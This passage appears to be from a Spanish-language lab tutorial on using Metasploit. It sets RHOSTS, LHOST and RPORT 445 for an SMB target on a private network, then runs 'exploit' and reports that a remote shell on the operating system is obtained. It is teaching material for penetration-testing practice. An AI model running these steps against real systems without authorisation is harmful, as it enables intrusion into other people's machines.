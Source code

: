 ```
set RHOSTS  192.168.153.181
set LHOST 192.168.153.178
set RPORT 445

```
![image](https://user-images.githubusercontent.com/50930193/121094262-f77a6880-c7b3-11eb-9409-876f4306ab3c.png)

Ahora que tiene todos los parametros llenos, lance el exploit
```
exploit

```

![image](https://user-images.githubusercontent.com/50930193/121094614-89827100-c7b4-11eb-9052-fcfd12e354a3.png)

Como verán se obtiene una shell con acceso al sistema operativo
